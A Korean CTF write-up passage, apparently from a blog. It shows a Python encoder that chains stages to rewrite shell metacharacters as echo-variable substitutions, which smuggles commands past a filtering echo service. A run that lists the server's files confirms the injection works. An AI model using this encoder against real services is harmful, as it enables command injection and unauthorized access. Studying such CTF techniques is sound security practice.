 ```python
def stage4(cmd):
    cmd = escape(cmd)
    return "echo=\\(; echo " + cmd.replace("\\(", "$echo")

# Encode )
def stage5(cmd):
    cmd = escape(cmd)
    return "echo=\\); echo " + cmd.replace("\\)", "$echo")

# Encode +
def stage6(cmd):
    cmd = escape(cmd)
    return "echo=\\+; echo " + cmd.replace("+", "$echo")

# Encode ;
def stage7(cmd):
    cmd = escape(cmd)
    return "echo=\\;; echo " + cmd.replace("\\;", "$echo")

# Encode =
def stage8(cmd):
    cmd = escape(cmd)
    return "echo=\\=; echo " + cmd.replace("=", "$echo")



p = cmd
p = stage1(p)
p = stage2(p)
p = stage3(p)
p = stage4(p)
p = stage5(p)
p = stage6(p)
p = stage7(p)
p = stage8(p)

for c in set(p):
    print >>sys.stderr, c, p.count(c)
print p
```

사실 직접 짜보려고 했는데 `CTFTime`에서 5.0 받은 롸업이 너무 코드를 잘짰다… 더이상 손볼구석이 없다. 이 코드를 보면서 나도 연습을 좀 해보려고 한다.

아무튼 해당 코드를 적절히 돌려서 나온 결과물을 투척하고 `count`를 8로 주면 문제가 해결된다.

```bash
[+] Starting local process './serve.sh': pid 23257
[*] Switching to interactive mode

And how often would you like me to echo that?
$ 8
Dockerfile
requirements.txt
service.py

bye
[*] Got EOF while reading in interactive
```

사실 본 문제에서는 다른 명령어도 써야 하는데, 이미 인코더를 만들었으므로 다른 명령어도 인코딩하는게 어렵지 않다. 다음엔 직접 코드 짜는 연습도 해봐야겠다.
